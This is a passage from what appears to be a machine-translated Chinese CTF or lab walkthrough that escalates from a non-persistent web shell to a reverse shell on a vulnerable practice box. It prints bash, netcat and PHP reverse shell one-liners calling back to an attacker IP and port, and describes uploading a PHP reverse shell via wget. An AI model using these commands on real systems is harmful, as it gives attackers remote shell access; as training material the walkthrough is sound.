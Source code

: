 因此，我们获得的 web shell 不是持久的，我们需要获得一个持久的 shell，因此我们必须执行一个反向 shell。

## [测笔猴](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

为了建立到易受攻击机器的反向 shell 连接，我们转到由 Pen-Test Monkey 提供的备忘单列表。这是一个非常有用的工具。

第一步是在我们的机器上设置一个监听器，在这里会弹出反向 shell。因此，一旦侦听器启动，我们就在易受攻击的机器中的基于 web 的 shell 中传递几个命令来启动反向 shell(不要忘记更改 IP 地址和端口号)。

![](img/ddc5810fbde7e9175f2029b586f2867e.png)

**痛击**

```
bash -i >& /dev/tcp/10.10.14.38/8081 0>&1
```

**网猫**

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.38 8081 >/tmp/f
```

**PHP**

```
php -r '$sock=fsockopen("10.10.14.38”,8081);exec("/bin/sh -i <&3 >&3 2>&3");'
```

在所有这些尝试之后，我们仍然无法发射反向炮弹。然后我们试着上传一个 php 反向 shell。早些时候，当我们使用 GoBuster 时，我们遇到了一个域/上传。我们转到易受攻击的机器中的特定目录，尝试创建一个文件，看看我们是否有权限这样做，我们键入以下命令

```
var/www/html/uploads# touch test
```

我们打开浏览器检查 URL[http://10 . 10 . 10 . 68/uploads/test](http://10.10.10.68/uploads/test)是否有效，幸运的是它有效。

然后，我们将 php-reverse-shell.php 文件复制到我们存储 LinEnum.sh 文件的文件夹中，并像以前一样使用 wget 将 php 文件下载到易受攻击的机器中。我们对 php 文件进行必要的更改，比如更改 IP 地址和监听的端口号。

![](img/c10eed0fec98c48fd93dfaa056a26f9d.png)
